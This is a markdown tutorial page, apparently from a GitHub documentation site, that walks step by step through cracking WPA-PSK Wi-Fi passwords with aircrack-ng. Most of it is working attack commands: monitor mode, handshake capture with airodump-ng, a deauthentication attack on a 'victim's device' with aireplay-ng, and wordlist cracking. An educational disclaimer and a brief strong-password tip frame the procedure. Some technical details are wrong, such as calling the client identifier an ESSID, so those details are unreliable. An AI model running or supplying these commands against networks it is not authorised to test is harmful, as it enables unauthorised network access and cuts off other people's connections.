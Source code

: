 ```yaml
---
title: WPA-PSK Hacking Guide
layout: default
nav_order: 5
---
```


{: .warning-title }
Although these networks are susceptible to hacking, it is crucial to emphasize that this guide is strictly for educational purposes. Engaging in these activities on networks without proper authorization is illegal. This is for educational purposes only. Having addressed this disclaimer, let's explore the underlying mechanisms, the practical execution, and measures to safeguard yourself against such vulnerabilities.

# **WPA-PSK HACKING GUIDE**

When you enable Wi-Fi in public places, you'll encounter numerous networks that likely utilize `WPA-PSK` (Wi-Fi Protected Access Pre-Shared Key) encryption, which is commonly used in wireless networks to secure data transmission. While it offers a level of security, there are vulnerabilities to consider. This guide will explore one of the most common methods of hacking WPA-PSK networks for educational purposes only.
 

## **Introduction**

When you connect to a network from a wireless device, a `handshake` is sent from the device to the router. This handshake contains the encrypted password.

While it's not possible to reverse the encrypted password, you can use a technique called a word list attack. A word list is a huge text file containing thousands of passwords. By comparing the encrypted handshake password with the passwords in the word list, you can determine the real password.

## **Requirements**

- Computer running `Linux` distribution;
- Computer with a network card that supports `monitor mode`;
- Install the package `Aircrack-ng` with the command `sudo apt install aircrack-ng`;

## **Procedure**

### 1 - Determine the Network Interface

<div class="code-example" markdown="1">
Identify the wireless network interfaces, which usually start with w (e.g., `wlp3s0`).
<br>This information will be needed later.
</div>
```bash
ip a
```

{: .important-title }
The "ip a" command in Linux displays network interface information, including IP addresses, MAC addresses, and related configurations. It is used for troubleshooting and network configuration purposes.

### 2 - Enable Monitor Mode

<div class="code-example" markdown="1">
Use the `airmon-ng` tool to switch your network card to monitor mode.
<br>It will break your internet connection temporarily.
</div>
```bash
airmon-ng start <wireless interface>
```

### 3 - Verify Monitor Mode

<div class="code-example" markdown="1">
Now, the wireless interface should be displayed as `<interface>mon` (e.g., `wlp3s0mon`).
<br>Run the command and It should appear `Mode: Monitor`.
</div>
```bash
iwconfig
```

{: .important-title }
If the wireless interface doesn't appear, it means your network card doesn't support monitor mode, and you'll need the external network card mentioned earlier.

### 4 - Scan for Networks

Use airodump-ng to view the networks around you.
<br>This command will display a list of nearby networks along with their BSSIDs (network MAC addresses) and channels.
<br>Enter the command:

```
airodump-ng <wireless interface>mon
```

### 5 - Target Network
Identify the BSSID and channel of the network you wish to attack.

### 6 - Capture the Handshake
This command will show all the devices currently connected to that network.
<br>If you watch a video in one of this devices, the amount of packets (frames) being set to a device increses a lot. 
<br>In a new terminal window, enter the command:

```
airodump-ng -d(--bssid) <BSSID> -w(--write) <filename> -c(--channel) <channel>  <wireless interface>mon
```
- `<BSSID>` - target network's BSSID;
- `<channel>` - target network's channel;
- `<filename>` - desired name for the captured handshake file;
- `<wireless interface>mon` - name of your wireless interface in monitor mode;

### 7 - Deauthentication Attack
Now we need to to send deauthentication packets to the victim's device, forcing it to disconnect and reconnect to the network so we can capture the handshake.
<br>Leave the previous terminal open and running.
<br>Use this command in another terminal:

```
aireplay-ng -0 10 -a <BSSID> -c <client ESSID> <wireless interface>mon
```
- `-0 10` - deauthentication and we gonna send 10 packets;
- `-a <BSSID>` - target network's BSSID;
- `-c <client ESSID>` - ESSID (name) of the device you want to deauthenticate (e.g., the victim's device);
- `<wireless interface>mon` - name of your wireless interface in monitor mode;

### 8 - Capture the Handshake
Observe the terminal running `airodump-ng` (step 6) and wait for a device to reconnect.
<br>Once the handshake is captured, you can see a message saying `WPA handshake: <BSSID>`.
<br>You can stop `airodump-ng` by pressing `Ctrl+C`.
<br>The captured handshake will be saved in the specified filename.

### 9 - Word List Attack
Kali Linux comes with pre-installed word lists located in the directory `/usr/share/wordlists`.
<br>If you are not on Kali, you can download a word list from here.
<br>Now let's attempt to match the captured handshake with passwords from the word list.
<br>Use the command:

```
aircrack-ng -w <wordlist> <filename>
```

- `<wordlist>` - path to the desired word list file (e.g., /usr/share/wordlists/rockyou.txt);
- `<filename>` - name of the captured handshake file;

### 10 - Cracked!
Note: After performing these steps, your internet connection may still be interrupted. To fix this, you can either restart your computer or execute the command airmon-ng stop <monitor interface> followed by systemctl restart network* to restart the network services.

## Protecting Yourself
While you cannot prevent the authentication process, you can protect against word list attacks by choosing a long and random password that is unlikely to be found in any word list.

## Conclusion
In this guide, we explored the process of Wi-Fi network hacking for educational purposes only. It is essential to respect privacy and legality when using these techniques. We discussed capturing handshakes, performing de-authentication attacks, and cracking passwords using word lists. Remember to always use this knowledge responsibly and protect yourself by setting strong passwords for your Wi-Fi networks.

If you found this guide helpful, feel free to leave a star, and thank you for reading!
